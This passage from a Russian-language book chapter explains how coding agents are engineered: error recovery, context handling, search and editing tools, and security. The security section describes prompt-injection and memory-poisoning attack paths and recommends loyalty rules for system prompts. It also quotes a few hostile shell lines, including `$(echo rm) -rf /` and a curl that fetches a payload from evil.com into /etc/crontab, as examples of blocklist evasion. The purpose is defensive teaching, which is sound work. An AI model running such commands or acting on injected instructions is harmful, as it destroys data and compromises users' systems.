Помимо единичных ошибок нужно выявлять **паттерны**. Первый — отпечаток повторяющегося вызова: по паре «имя инструмента + параметры» вычисляется отпечаток, и повторяющееся появление одного и того же отпечатка — явный сигнал цикла без прогресса (именно такой паттерн демонстрировал агент в абляционном исследовании из первой главы, повторно вызывая один и тот же инструмент). Второй — счётчик последовательных неудач: для каждого пути восстановления ведётся отдельный счётчик, который служит основанием для последующего срабатывания предохранителя.

Есть и категория сбоев, которая не проявляется как ошибка и требует отдельного **мониторинга живости и целостности**. Самый опасный режим отказа для потокового соединения — не разрыв (он немедленно вызывает ошибку), а тихое зависание: соединение установлено, но поток данных остановился, как будто труба подключена, но вода не течёт; механизм тайм-аута в SDK обычно покрывает только установку соединения, а не сам процесс передачи данных, поэтому production-агенту нужен независимый сторожевой таймер простоя (watchdog timer: если за заданное время нет нового вывода, соединение считается зависшим), по истечении которого зависший поток принудительно завершается и запускается повторная попытка. Отсюда можно вывести общий принцип: **каждому долгоживущему соединению нужен сигнал живости, а не только тайм-аут на уровне подключения**. Мониторинг целостности направлен на структуру траектории: при обнаружении вызова инструмента без парного сообщения с результатом система автоматически восстанавливает соответствие ещё до внедрения в контекст, вместо того чтобы передавать структурную аномалию модели или пользователю. Примечательная инженерная деталь: некоторые production-агенты одновременно работают в продуктовом режиме и в режиме сбора обучающих данных — в продуктовом режиме отсутствующие сообщения можно залатать заполнителями, а в обучающем режиме такое исправление запрещено, поскольку синтетические заполнители загрязняют обучающие данные. Двойной стандарт «в продуктовом режиме — снисходительность, в обучающем — строгость» отражает глубокую связь между Harness и обучением модели.

**Восстановление: поэтапная эскалация, прозрачность по нарастающей.** Средства восстановления ранжируются по степени прозрачности для пользователя: если можно решить проблему на более низком уровне, эскалация не нужна.

1. **Молчаливая повторная попытка**. Действие по умолчанию для повторяемых ошибок. Успех определяют две детали: экспоненциальная задержка с наложением случайного джиттера — чтобы избежать массовой синхронной повторной отправки запросов клиентами и вторичной перегрузки, с учётом подсказки о времени ожидания, возвращаемой сервером; и различение вызовов на переднем и заднем плане — сбой запроса основного цикла требует повторной попытки, а сбой вспомогательного фонового вызова вроде генерации заголовка или подсказки для ввода — нет, иначе фоновые повторные попытки будут отбирать квоту у основного цикла, создавая «усиление повторных попыток».
2. **Деградация и продолжение**. Если повторная попытка не помогает, нужно изменить сам запрос и попробовать снова. Возьмём обрезку вывода по лимиту (генерация оборвалась на середине из-за ограничения по длине): сначала молча повышаем лимит вывода и переотправляем запрос; если этого недостаточно, добавляем в конец сообщения мета-инструкцию, чтобы модель продолжила генерацию с точки обрыва. При постоянной перегрузке основной модели происходит переключение на резервную модель (предварительно нужно удалить из истории специфичные для старой модели форматные блоки, иначе новая модель не сможет разобрать предыдущие сообщения); при ограничении частоты для дорогостоящего режима — временный откат к стандартному режиму.
3. **Показ пользователю**. Ошибка отображается только после исчерпания всех автоматических средств, вместе с описанием уже предпринятых попыток восстановления.

Ошибки уровня инструментов идут по другому пути: **сессия не прерывается, ошибка превращается во входные данные для модели**. Галлюцинаторный вызов получает структурированный результат об ошибке «инструмент не существует»; провал валидации параметров возвращает ошибку с подсказкой об ограничениях на входные данные; некорректные параметры (например, вместо объекта получена строка) программно исправляются ещё до выполнения. Эти ошибки попадают в контекст как обычные результаты инструментов, и модель сама исправляет их в следующем раунде — это прямое применение принципа «чем структурированнее обратная связь, тем лучше»: чем конкретнее возвращённая ошибка, тем выше вероятность самостоятельного исправления моделью.

Ключевой принцип этого раздела: **граница обработки ошибок — не отдельный запрос, а весь цикл восстановления целиком**. Пока не подтверждено, что восстановление невозможно, промежуточные ошибки не должны показываться потребителю — будь то пользователь или подписанная на события нижестоящая система: сообщения об ошибках удерживаются на время восстановления, при успешном восстановлении потребитель ничего не замечает, и лишь при полном провале ошибка высвобождается целиком. Это инженерная реализация принципа исправления из первой главы: «не показывать промежуточное состояние, пока не подтверждено, что восстановление невозможно».

**Прекращение: у каждого пути восстановления должен быть предел.** Сам механизм восстановления тоже может отказать, поэтому у каждого пути восстановления должен быть чёткий верхний предел срабатывания предохранителя: после нескольких подряд неудач сжатия контекста — отказ от сжатия, после нескольких подряд неудач классификации разрешений — откат к ручному запросу, продолжение вывода — не более фиксированного числа попыток. Откуда берутся пороговые значения? Ответ — из реальных производственных данных, а не «на глазок». Возьмём предохранитель сжатия в Claude Code: порог «3 подряд» получен из статистики по реальным сессиям — была зафиксирована сессия, где на этом пути восстановления произошло более трёх тысяч неудач подряд; только такие бесполезные повторные попытки ежедневно расходуют по всему миру около 250 тысяч лишних вызовов API; более тысячи сессий демонстрировали 50 и более неудач подряд. 3 — это эмпирическая точка перегиба между «в подавляющем большинстве случаев сбой уже восстановился к этому моменту» и «дальнейшие попытки практически безнадёжны».

Ещё более скрытая проблема, чем срабатывание одиночного предохранителя — **спираль смерти**: логика, запущенная на пути ошибки, сама вызывает LLM, снова получает ошибку, и это запускает цепную реакцию. Реальный пример такой цепочки: агент останавливается из-за переполнения контекста, это запускает хук остановки «автоматически закоммитить код при завершении» (логика очистки, автоматически выполняемая при завершении работы агента), хук вызывает LLM для генерации commit-сообщения, снова происходит переполнение контекста, снова запускается хук. Защита строится на двух принципах: на пути ошибки отключается вся побочная логика, которая может повторно вызвать модель (лучше пожертвовать вспомогательной функцией, например автоматическим извлечением памяти), а также используется счётчик глубины рекурсии для обнаружения и прерывания остаточных цепных реакций. Наконец, поверх всех автоматизированных механизмов нужны глобальные условия прекращения и эскалации: максимальное число итераций, лимит бюджета на сессию, а также эскалация к человеческому вмешательству при превышении порога последовательных неудач.

### Практические приёмы реализации кодинг-агента

Описанный выше рабочий процесс — это идеальное состояние. Чтобы он реально заработал на практике, нужны ещё несколько конкретных приёмов реализации — они позволяют повысить скорость отклика и снизить расход контекста, не жертвуя качеством размышлений. Это конкретные применения в области программирования общих приёмов работы с агентами, обсуждавшихся во второй и четвёртой главах.

**Параллельный вызов инструментов, потоковое выполнение и каскадное прерывание.**

Традиционные реализации агентов часто используют последовательную модель: сгенерировать один вызов инструмента, дождаться выполнения, получить результат, только потом решать, что делать дальше. Такое строгое ожидание в очереди тратит огромное количество времени.

Современный кодинг-агент должен в полной мере использовать потоковый вывод: этот механизм был описан во второй главе при обсуждении порядка вывода модели — как только параметры первого вызова инструмента полностью сгенерированы и прошли проверку, выполнение можно начинать немедленно, не дожидаясь генерации последующих вызовов инструментов моделью. Например, в рамках одного вывода модель последовательно генерирует три вызова инструментов: поиск по коду, проверку конфигурационного файла и чтение логов — как только параметры первого вызова полностью сформированы и проверены, он запускается немедленно, параллельно с продолжающейся генерацией второго и третьего вызовов; независимые друг от друга вызовы также могут выполняться параллельно, а не по очереди. Такое перекрывающееся выполнение значительно снижает сквозную задержку и делает отклик агента более отзывчивым.

Оборотная сторона параллельного выполнения — обработка сбоев. Каждое определение инструмента должно указывать, поддерживает ли он параллельное выполнение (по умолчанию — нет, из соображений безопасности при сбое); при сбое одного вызова механизм каскадного прерывания завершает другие вызовы, запущенные в той же партии и зависящие от его результата, но не затрагивает независимые вызовы и родительские операции — это конкретная реализация принципа «контроля границ сбоя», описанного в разделе про Harness-инженерию.

**Тонкая настройка управления контекстом.**

Фундаментальный вызов, с которым сталкивается кодинг-агент — обычно большой объём кодовой базы при ограниченном окне контекста модели. Даже если продвинутая модель заявляет поддержку окна на миллион токенов, заталкивать всю кодовую базу целиком в контекст неэкономично и не нужно. Разумное управление контекстом должно вестись на нескольких уровнях.

На уровне чтения файлов агент не должен всегда читать файл целиком. Для больших файлов инструмент должен поддерживать чтение конкретного фрагмента по диапазону номеров строк — например, прочитать только строки со 100-й по 150-ю, а не загружать целиком файл на несколько тысяч строк. Ещё важнее — добавлять к возвращаемому содержимому пометку с номером строки: каждая строка кода снабжается префиксом с фактическим номером строки. Этот на первый взгляд простой приём даёт огромную ценность: модель может точно сослаться на «строку 42 в `src/main.py`», что уменьшает двусмысленность и делает последующие операции редактирования более надёжными.

На уровне выполнения команд не менее осторожно нужно обращаться и с обработкой вывода терминала. Компиляция или тесты могут выдавать тысячи строк вывода; если внедрить всё это в контекст, бюджет будет быстро исчерпан. Механизм обрезки длинного вывода с сохранением на диск, описанный в четвёртой главе, широко применяется и здесь: сохраняются первые несколько строк вывода (обычно они содержат контекст ошибки) и последние несколько строк (обычно содержат итог по ошибке), а середина заменяется одной строкой-подсказкой с пояснением, что полный вывод сохранён во временный файл и доступен по запросу.

**Динамическое внедрение информации об окружении.**

Это концентрированное проявление технологии строки состояния агента, описанной во второй главе, применительно к кодинг-агенту. В отличие от универсального агента, кодинг-агент сильно зависит от состояния среды выполнения. Перед каждым выводом в конец контекста должна внедряться в виде строки состояния агента следующая ключевая информация об окружении:

- **текущий рабочий каталог**: гарантирует, что ссылки на пути не будут ошибочными
- **git-ветка**: понимание, работает ли агент в основной ветке или в отдельной feature-ветке
- **последние коммиты**: представление об эволюции проекта
- **обзор незафиксированных и уже добавленных в индекс изменений**: ясное понимание, какие изменения уже сделаны

Эта информация не должна быть жёстко зашита в статическом системном промпте — это разрушило бы эффективность KV Cache, — а должна генерироваться динамически, в режиме дописывания, в виде строки состояния агента и внедряться в реальном времени. Таким образом агент получает способность «осознавать окружение»: каждое решение опирается на точное понимание текущего состояния, а не на устаревшие предположения.

**Персистентность состояния среды выполнения команд.**

При взаимодействии с кодом многие операции зависят от состояния среды: смена каталога, активация виртуального окружения, установка переменных окружения, запуск фоновых сервисов. Если каждая команда выполняется в совершенно новой оболочке, всё это состояние теряется — агент только что перешёл в каталог проекта командой `cd`, а следующая команда снова выполняется в корневом каталоге, и приходится каждый раз повторять одну и ту же настройку заново. Хуже того, эффект некоторых операций (например, активации виртуального окружения Python) действует только в рамках текущей сессии оболочки и не переносится между сессиями.

Поэтому нужно поддерживать персистентную сессию терминала, создаваемую при запуске агента и остающуюся активной на протяжении всего взаимодействия. Каждая команда выполняется в этом общем терминале, сохраняя рабочий каталог, переменные окружения и состояние сессии. Такой подход лучше соответствует привычному стилю работы человека-разработчика — обычно мы работаем в одном долгоживущем окне терминала. Разумеется, агент должен сохранять и возможность запуска изолированных терминалов для поддержки параллельных задач, но режимом по умолчанию должна быть персистентная сессия.

**Механизм мгновенной обратной связи по синтаксису.**

Это снова показывает ценность технологии строки состояния агента. После изменения кода агенту не следует ждать, пока пользователь явно не попросит запустить проверку синтаксиса. Более эффективный подход: сразу после завершения операции записи файла инструментальный слой автоматически запускает соответствующий Linter или проверку синтаксиса, а результат проверки представляется агенту как часть значения, возвращаемого инструментом. При обнаружении синтаксической ошибки агент немедленно видит подробную информацию об ошибке уже в следующем раунде вывода — подобно тому, как программист в IDE, ошибившись со скобкой, сразу же видит красное подчёркивание от редактора. Этот механизм мгновенной обратной связи значительно снижает стоимость исправления ошибок, поскольку агент может внести исправление в тот же момент, когда ошибка была допущена, не дожидаясь запуска тестов для её обнаружения.

Эти пять приёмов реализации — параллельность и потоковость, управление контекстом, осознание окружения, персистентность состояния, мгновенная обратная связь — вместе составляют техническую основу эффективного кодинг-агента. Это не изолированные точки оптимизации, а взаимосвязанные проектные решения, которые все вместе направлены к одной цели: позволить агенту работать так же слаженно, как опытному разработчику.

### Инструменты поиска в кодинг-агенте

Найти нужный код в огромной кодовой базе — это отправная точка работы кодинг-агента. Рис. 5-3 сопоставляет несколько взаимодополняющих инструментов поиска и показывает, как зрелый кодинг-агент должен выбирать способ поиска исходя из природы задачи.


**Поиск по содержимому с регулярными выражениями** (grep/ripgrep): самый традиционный способ поиска — построчное сканирование содержимого файлов на предмет совпадения с шаблоном. Когда агент знает конкретный текст, который нужно найти (имя функции, переменной, текст сообщения об ошибке), он может быстро и точно найти все места, где это встречается. Регулярные выражения (синтаксис описания текстовых шаблонов с помощью специальных символов, например `def handle.*` находит все определения функций, начинающиеся с `handle`) обладают мощной выразительной силой и позволяют улавливать сложные паттерны — можно искать не только буквальный текст, но и фрагменты кода, соответствующие определённой структуре. На практике стоит также поддерживать фильтрацию по типу файлов (искать только в Python-файлах) и по шаблонам путей (исключать директории с тестами), чтобы снизить шум. Принципиальное ограничение состоит в том, что находить можно только текстовые совпадения, а смысл понять нельзя — при поиске «аутентификация пользователя» не найдётся функция, которая на самом деле обрабатывает логику входа, но не содержит слова «аутентификация».

**Поиск по шаблону имени файла** (glob): не заглядывает в содержимое файлов, а ищет файлы, соответствующие шаблону, только в структуре путей файловой системы. Например, `**/*.test.ts` рекурсивно находит все тестовые файлы TypeScript, а `src/components/**/Button.tsx` ищет Button.tsx на любой глубине внутри components. Такой поиск гораздо быстрее посимвольного (не нужно открывать и читать файлы) и обычно становится первым шагом агента при исследовании структуры проекта — быстрое сканирование всей файловой системы позволяет составить представление об организации проекта.

**Семантический поиск кода**: в отличие от двух предыдущих методов точного совпадения, пытается понять «смысл» запроса и кода. Здесь нужно решить две ключевые задачи:

- **Разбиение с учётом структуры**: код имеет строгую синтаксическую структуру, поэтому его следует делить на цельные семантические единицы — функции, классы, методы, — а не механически резать на куски фиксированной длины.
- **Гибридный поиск** (этот технологический стек подробно описан в главе 3): векторные вложения (плотные эмбеддинги) хорошо находят код, семантически близкий, но выраженный другими словами (например, поиск «проверить личность пользователя» может найти функцию с именем `check_credentials`), а поиск по ключевым словам хорошо справляется с точным совпадением имён функций и переменных. Оба метода выполняются параллельно, а затем результаты объединяются с помощью модели пересортировки (reranker, которая с помощью кросс-энкодера производит тонкую сортировку кандидатов по релевантности) — так достигается взаимодополняющее покрытие.

Семантический поиск особенно хорош для исследовательских задач — например, для поиска в незнакомой кодовой базе кода, «взаимодействующего с базой данных» или «обрабатывающего валидацию пользовательского ввода».

Однако в отрасли существует явный спор о путях развития: стоит ли вообще создавать эмбеддинг-индекс для семантического поиска. Терминальные агенты вроде Claude Code сознательно **не строят эмбеддинг-индекс**, полагаясь исключительно на agentic-поиск в реальном времени через grep + glob — это избавляет от необходимости поддерживать индекс, который со временем устаревает по мере эволюции кода, экономит на инфраструктуре индексации. IDE-инструменты вроде Cursor поначалу шли по обратному пути: они готовы платить за построение индекса ради **семантического поиска между файлами** — эмбеддинг-индекс позволяет быстро находить в большой кодовой базе семантически связанные, но по-разному сформулированные фрагменты. Сегодня IDE вроде Cursor тоже перешли на поиск в реальном времени через grep + glob.

**Поиск определений и ссылок на уровне символов**: основан на IDE-подобных возможностях «перейти к определению» и «найти все ссылки», который умеет отличать определение символа от его вызова — например, он знает, что `authenticate` на строке 42 является определением функции, а на строке 189 — вызовом, тогда как текстовый поиск найдёт лишь все строки, содержащие эту строку. Сегодняшние массовые coding-агенты этот подход не используют.

Эти четыре способа поиска образуют взаимодополняющий набор инструментов, и на практике их часто комбинируют: сначала семантический поиск находит нужный модуль, затем поиск по регулярному выражению точно указывает нужную строку кода, а поиск по символам позволяет проследить цепочку вызовов — это прогрессивная стратегия «от грубого к тонкому, от семантики к синтаксису».

### Инструменты редактирования файлов в кодинг-агенте

Сложность редактирования файлов не в самой операции, а в том, как заставить LLM эффективно и надёжно сообщить системе, «что и как менять». Рис. 5-4 сравнивает пять подходов к редактированию файлов, демонстрируя фундаментальное противоречие между человеческим языком выражения и точным машинным исполнением.




**Описание различий + модель применения (Apply Model)**: модель не указывает напрямую, как редактировать файл, а генерирует описание изменения — это может быть текст различий в стиле git diff (тот самый формат «какие строки удалены, какие добавлены», который выводит команда `git diff`), либо скелет кода с пропусками (комментарии вроде «здесь без изменений», пропускающие неизменённые части). Это описание затем передаётся специальной «модели применения» (Apply Model) — обычно другой, более маленькой и быстрой LLM, — которая отвечает за слияние с исходным файлом и получение полного нового файла. Такое разделение ответственности позволяет основной модели сосредоточиться на высокоуровневой логике кода, а модели применения — на низкоуровневых текстовых операциях. Уязвимость наивной реализации кроется как раз в слиянии: если описание изменения слегка расходится с реальным кодом файла, приходится определять, идёт ли речь об одном и том же месте, а при наличии нескольких похожих фрагментов кода изменение может быть применено не туда. Cursor — показательный пример постоянного развития этого подхода: основная модель выдаёт скелет кода с пропусками, а специально обученная маленькая модель fast-apply переписывает полный файл, используя спекулятивное декодирование (speculative decoding, где содержимое исходного файла служит черновиком для параллельной проверки), что доводит скорость слияния до тысяч токенов в секунду — надёжность и скорость этого пути достигаются за счёт значительных инженерных вложений.

**От старой строки к новой строке** (Old String → New String): подход, используемый Claude Code. Модель предоставляет old string (исходный текст, который нужно заменить) и new string (новый текст после замены), а фреймворк выполняет простой поиск и замену строки. Преимущество — предсказуемость и прозрачность: если old string существует в файле и уникален, замена проходит успешно, иначе — нет, никакой двусмысленности. Плата за это — при удалении больших блоков кода нужно полностью выводить весь исходный текст, а расхождение хотя бы в одном символе приведёт к неудаче совпадения; если один и тот же код встречается несколько раз, нужен более длинный контекст для устранения неоднозначности.

**Позиционирование по номерам строк** (Old Line Numbers → New String): модель указывает «удалить строки с X по Y, вставить новое содержимое». Номера строк точны и однозначны, для удаления большого блока достаточно двух чисел. Но модели легко ошибиться при «подсчёте» номеров строк, особенно в длинных файлах. На практике это обычно смягчают, помечая номерами каждую строку при чтении файла, но после каждого редактирования последующие номера строк меняются, что ограничивает возможность параллельного выполнения нескольких правок.

**Команды редактирования в стиле Vim**: заимствует систему команд редактора Vim, поддерживает богатый набор операций копирования, вырезания, вставки. Очень эффективен для реорганизации кода (перемещение функции из одного места в другое). Но нагрузка на изучение синтаксиса команд значительна: самые мощные модели справляются неплохо, а у менее мощных моделей заметно растёт частота ошибок.

**Совпадение начала и конца строки** (Old String Start + End → New String): можно рассматривать как усовершенствование подхода с заменой старой строки. Модели не нужно выводить полный old string — достаточно указать первые несколько строк и последние несколько строк удаляемого содержимого, а середину можно опустить. Фреймворк определяет область замены, сопоставляя это начало и конец, и если такая пара «начало-конец» уникальна в файле, позиция определяется точно. Этот подход сочетает надёжность текстовой замены с эффективностью подхода на основе номеров строк — при обработке удаления больших блоков кода не нужно выводить сотни строк исходного кода, достаточно показать границы. При этом, поскольку по-прежнему используется сопоставление по содержимому, а не абстрактные номера строк, риск ошибки модели относительно невелик.

**Практические рекомендации**. В целом основные кодинг-агенты представлены двумя путями: Claude Code выбирает подход «от старой строки к новой строке» — приоритет надёжности, простота реализации, отсутствие необходимости в дополнительной модели; Cursor же довёл до предела путь Apply Model — вкладываясь в обучение и вывод специализированной модели fast-apply ради более высокой пропускной способности редактирования. Для собственного агента «от старой строки к новой строке» — самая надёжная отправная точка; при обработке крупных изменений «совпадение начала и конца строки» — более экономичный компромисс; подход с номерами строк надёжен только в сценариях глубокой интеграции с IDE (когда редактор поддерживает отображение номеров строк в реальном времени и способен немедленно передавать их модели после каждой правки), в противном случае он легко ломается из-за смещения номеров строк.

### Безопасность кодинг-агентов

В этом разделе мы сводим рубежи защиты кодинг-агентов в единую цельную линию повествования: сначала обрисуем **модель угроз** — какие риски наиболее опасны; затем обсудим **изоляцию как последний рубеж** — сетевой выход из песочницы, файловую систему и лимиты ресурсов; далее — **защиту во время выполнения** — семантический разбор команд и спекулятивное выполнение, делающее проверки безопасности «незаметными»; и наконец придём к **доверию и лояльности** — на чью сторону встаёт агент при поручениях от нескольких сторон, и как сдвинуть границу доверия вниз, на уровень данных, когда сам код, написанный ИИ, ненадёжен. Обсуждение модели угроз, лояльности и границ доверия универсально для всех агентов, а песочница и разбор команд — специфическое приращение именно для кодинг-агентов.

Такая парадигма «суверенного агента» несёт и серьёзные вызовы безопасности. Кодинг-агент обладает правами на чтение и запись файлов, выполнение команд, доступ к сети — а значит, стоит внедрить в него вредоносную инструкцию, и ущерб может оказаться необратимым. Разработчик и независимый исследователь Саймон Уиллисон обобщил этот риск в знаменитой формуле «смертельного трио» — когда все три элемента налицо, замыкается полноценный контур атаки, и система относится к категории высокого риска:

1. **Доступ к приватным данным** — агент может читать файлы пользователя и менеджер паролей.
2. **Воздействие ненадёжного контента** — обрабатываемые письма и веб-страницы могут содержать вредоносную нагрузку.
3. **Способность к внешней коммуникации** — возможность отправлять письма и выполнять команды.

Так замыкается путь атаки: вредоносная инструкция, спрятанная в ненадёжном контенте, попадает в агента, заставляет его прочитать приватные данные, а затем передаёт их наружу через внешний канал. Заметим: наличия всех трёх элементов уже достаточно для опасности, никаких дополнительных условий не требуется. На этой основе автор добавляет четвёртое измерение — **устойчивую память**. Это не четвёртое равноправное необходимое условие, а усилитель атаки: злоумышленник может внедрить на первый взгляд безобидную предвзятость или вредоносную инструкцию в долговременную память агента, где она затаится между сессиями и сработает в подходящий момент, превращая разовую атаку в затяжное скрытое усиление.

Эти четыре пункта можно свести к четырём типам границ: граница данных, граница доверия к входным данным, граница влияния на выходные данные, граница между сессиями. Такие агенты с полным набором прав и локальным исполнением, как OpenClaw, обладают всеми четырьмя признаками сразу, поэтому защита безопасности становится для них ключевым вызовом, который нельзя игнорировать.

Это же объясняет, почему закрытые коммерческие агенты (например, Claude Cowork — универсальный агент Anthropic для интеллектуальной работы, переиспользующий agentic-архитектуру Claude Code и способный читать и писать локальные файлы, выполняя многошаговые задачи в разных офисных приложениях) выбрали консервативную политику разрешений. Перед лицом инъекции промпта одной лишь фильтрации входных данных практически недостаточно. Главное — не распознать все возможные атаки, а сделать так, чтобы даже успешно скомпрометированный агент не имел возможности реально выполнить опасное действие. Именно здесь и вступают в дело трёхслойные ограждения из главы 1. По сравнению с другими агентами, кодинг-агентам особенно важно обратить внимание на следующее:

- **Семантический разбор команд** — комбинаторный взрыв возможных Shell-команд делает бессмысленным чёрный список ключевых слов, необходимо понимать реальный эффект команды на уровне семантики (подробнее об этом далее в разделе);
- **Изоляция песочницей и контроль сетевого выхода** — выполнение кода является атакующей поверхностью, специфичной именно для кодинг-агентов; инженерный выбор уровня изоляции и политики выхода будет рассмотрен далее в этом разделе;
- **Рубеж защиты устойчивой памяти между сессиями** — это расширение, которое данная глава подчёркивает сверх «смертельного трио»: содержимое, записываемое в долговременную память, должно проходить ту же проверку доверия, что и внешний контент, чтобы избежать ситуации, когда вредоносная инструкция затаивается в `MEMORY.md` и действует долгое время.

Эти три дополнительные меры относятся, соответственно, к уровням проверки, исполнения и данных, дополняя систему защиты предыдущих двух глав. Эти стратегии не устраняют риск полностью, но сокращают атакующую поверхность агента.

**Изоляция как последний рубеж: инженерный выбор песочницы для выполнения кода.**

- **Контроль сетевого выхода**. Это самый легко упускаемый, но при этом ключевой пункт: по умолчанию сеть отключена, а по необходимости через прокси с белым списком разрешаются ограниченные цели (репозитории пакетов, сайты документации, API, явно требуемые задачей). Возвращаясь к третьему пункту «смертельного трио» — «способность к внешней коммуникации» — контроль сетевого выхода как раз и есть защита на уровне исполнения против него: даже если инъекция промпта удалась и вредоносный код внутри песочницы прочитал чувствительные данные, без выхода наружу их некуда передать. По сравнению с попыткой распознать каждую отдельную инъекцию, перекрытие канала утечки данных — куда более детерминированный рубеж защиты.
- **Область изоляции файловой системы**. Каталог с исходным кодом монтируется только для чтения (агент модифицирует код через инструмент редактирования, сгенерированный патч после проверки записывается на диск, либо копия монтируется в отдельную область для записи); отдельный каталог рабочей области, доступный для записи, содержит генерируемые файлы и промежуточные результаты; файлы с учётными данными (`~/.ssh`, ключи, токены) вообще не монтируются в песочницу — невидимые данные не могут быть украдены, что соответствует первому пункту «смертельного трио».
- **Лимиты ресурсов и таймауты**. Квоты по CPU, памяти, диску плюс таймаут по настенному времени защищают от бесконечных циклов, форк-бомб (безудержного самокопирования процессов до истощения системы) и неограниченной записи на диск. Практическая деталь: при срабатывании таймаута или превышении лимита агенту следует возвращать структурированную ошибку («выполнение превысило 120 секунд и было прервано, последний вывод: ...»), а не молча убивать процесс, — чтобы у агента была возможность скорректировать стратегию в следующем шаге.
- **Примирение устойчивых сессий и изоляции**. Далее в главе, в разделе «Сохранение состояния среды выполнения команд», отстаивается идея поддержания долгоживущей терминальной сессии, тогда как принцип изоляции требует, чтобы среда одноразово использовалась и уничтожалась, — между этими подходами есть напряжение. Способ его снять таков: **сохранение сессии происходит внутри песочницы**, жизненный цикл терминальной сессии строго не превышает жизненный цикл песочницы, состояние сессии никогда не «утекает» на хост-машину; для сценариев, требующих восстановления после длительного перерыва (как в упомянутой ранее архитектуре без сохранения сессии, Sessionless), состояние восстанавливается через снимки песочницы либо через «сохранение файлов рабочей области + пересоздание среды по скрипту», а не через бесконечное продление жизни песочницы. Иными словами, устойчиво сохраняется **аудируемое описание состояния** (файлы, скрипты, манифесты), а не непрозрачный работающий процесс.

**Безопасность: семантический разбор, а не чёрный список ключевых слов.**

В первой главе отмечалось, что уровень проверки должен строиться на механизме безопасности «понимание, а не сопоставление шаблонов»; проверка безопасности Shell-команд — самое сложное применение этого принципа. Простой чёрный список ключевых слов не справляется с комбинаторным взрывом возможностей Shell — команду можно обойти любое статическое правило через конвейеры, вложенные оболочки, раскрытие переменных и тому подобное (например, если запретить `rm`, злоумышленник может обойти запрет через `$(echo rm) -rf /`). Продуктивные Harness-решения используют семантический разбор: понимание типов аргументов каждой команды и правил их потребления (какие флаги «съедают» следующий аргумент), распознавание паттернов атаки вида «на первый взгляд безобидный флаг на самом деле поглощает следующий аргумент, скрывая тем самым опасную нагрузку». Например, `find / -name '*.log' -exec rm {} \;` встраивает операцию удаления `rm` через легитимный параметр команды `find`; или `curl -o /etc/crontab http://evil.com/payload`, который внешне выглядит как загрузка файла, а на деле перезаписывает системные запланированные задачи. Семантический разбор способен распознать такие вложенные опасные операции, тогда как простой чёрный список команд их не улавливает. Такой механизм безопасности, основанный на понимании, а не на сопоставлении, — это продвинутая реализация функции «ограничения».

**Спекулятивное выполнение: делаем проверку безопасности «незаметной»**. Это как раз эффект механизма шлюзования через Sidecar из четвёртой главы, проявляющийся на уровне пользовательского опыта — там объяснялось, почему критические операции стоит отдавать на перепроверку Sidecar, независимому от основного контекста; здесь же нас интересует, как сделать так, чтобы эта проверка не воспринималась пользователем как ожидание. Подход состоит в том, чтобы разделить «отображение» и «разрешение» и выполнять их параллельно: когда агент готовится выполнить вызов инструмента, система одновременно показывает в интерфейсе индикатор прогресса (например, «Читаю файл `src/main.py`...») и в фоне запускает проверку безопасности. Здесь стоит прояснить одну часто используемую, но не вполне точную аналогию: это не то же самое, что спекулятивное выполнение в CPU — процессор при ошибочном предсказании отбрасывает уже вычисленные результаты и откатывает состояние, а здесь заранее показывается лишь **UI-подсказка без побочных эффектов**, которая не изменяет никакого реального состояния; если проверка не пройдена, откатывать нечего — подсказка просто заменяется на «ожидание подтверждения». В большинстве случаев проверка безопасности успевает завершиться раньше, чем пользователь вообще заметит паузу, и он не ощущает никакой дополнительной задержки; лишь когда быстро принять решение не удаётся, выполнение реально приостанавливается в ожидании подтверждения. Это высшая форма проектирования Harness: безопасность достигается не в ущерб пользовательскому опыту.

**На чью сторону встаёт агент: лояльность при поручениях от нескольких сторон.**

Описанные выше механизмы безопасности защищают от «превращения команды во вредоносную», но есть и более тонкая проблема безопасности — **лояльность к доверителю** (principal loyalty): **на чьей стороне на самом деле находится агент**. В модель при обучении закладывается простой принцип по умолчанию — «кто со мной говорит, тому я и помогаю изо всех сил»; но реальный агент часто оказывается в ситуации **поручения от нескольких сторон**: он действует от имени своего хозяина, но взаимодействует с третьей стороной, чьи интересы противоположны, — например, агент, который торгуется за вас, сидит напротив не «пользователя, которому нужна помощь», а **оппонента по переговорам**. В такой ситуации правило «кому говорят, тому и помогают» становится опасной настройкой по умолчанию: стоит оппоненту заговорить — и он может переманить агента на свою сторону.

Если поместить передовые модели в такую ситуацию и протестировать их на практике, обнаруживается чёткий **спектр лояльности**, причём оба его конца провальны[^ch5-1]: на одном конце — **чрезмерная честность**, когда агент прямо выдаёт оппоненту приватную информацию хозяина (например, «наша минимальная цена — 12000»), и после нескольких раундов давления сдаётся и уступает; на другом конце — **чрезмерная подозрительность**, когда агент отказывает даже в законных просьбах хозяина и в итоге вообще не справляется с задачей. По-настоящему сложное здесь то, что эти два вида провала — как качели: заткнуть утечку информации часто означает соскользнуть в чрезмерные отказы, и совместить одно с другим трудно.

Это особенно актуально для кодинг-агентов: ненадёжный контент, прочитанный из репозитория, вывод от какого-то инструмента, инструкция, пришедшая от стороннего MCP-сервера, — всё это попытки «оппонента» переманить агента на свою сторону, ведь **инъекция промпта по сути и есть попытка переманивания** (вторая и четвёртая главы). Поэтому на уровне Harness необходимо явно и жёстко зафиксировать «объект лояльности»: инструкции хозяина имеют наивысший приоритет, а весь контент от внешних сторон взаимодействия по умолчанию понижается до статуса «может быть учтён для справки, но не обладает силой инструкции». В переводе на системный промпт хорошо работающий **свод правил лояльности** выглядит так: защищать приватную информацию хозяина, включая сам факт её существования; при отказе не перечислять по пунктам список причин отказа (это само по себе уже утечка); частная минимальная позиция не равна публично озвучиваемой позиции; выполнять только явные и конкретные инструкции хозяина; выдерживать повторяющееся давление. По сути, это способ с помощью Harness добавить модели ту позицию, которой у неё по умолчанию нет: **абсолютную лояльность хозяину и осторожность по отношению к внешним сторонам взаимодействия**.

[^ch5-1]: Полная оценка этого спектра лояльности и свода правил приведена в: Li, Bojie and Noah Shi. *Whose Side Is Your Agent On? Multi-Party Principal Loyalty in LLM Agents.* arXiv:2606.30383, 2026.

**Когда сам код, написанный ИИ, ненадёжен: сдвигаем границу доверия вниз.**

